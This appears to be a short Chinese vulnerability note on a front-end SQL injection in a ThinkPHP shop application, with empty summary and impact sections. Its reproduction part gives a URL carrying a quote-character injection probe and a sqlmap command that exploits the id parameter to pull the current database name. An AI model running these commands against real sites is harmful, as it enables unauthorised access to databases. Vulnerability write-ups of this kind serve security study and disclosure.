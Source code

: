 # Thinkphp Shop前台SQL注入

> 原文：[https://www.zhihuifly.com/t/topic/3180](https://www.zhihuifly.com/t/topic/3180)

# Thinkphp Shop前台SQL注入

## 一、漏洞简介

## 二、漏洞影响

## 三、复现过程

http://www.0-sec.org/mobile/index/index2/id/1'

sqlmap -u "http://www.0-sec.org/mobile/index/index2/id/1*" --random-agent --batch --dbms "mysql" --current-db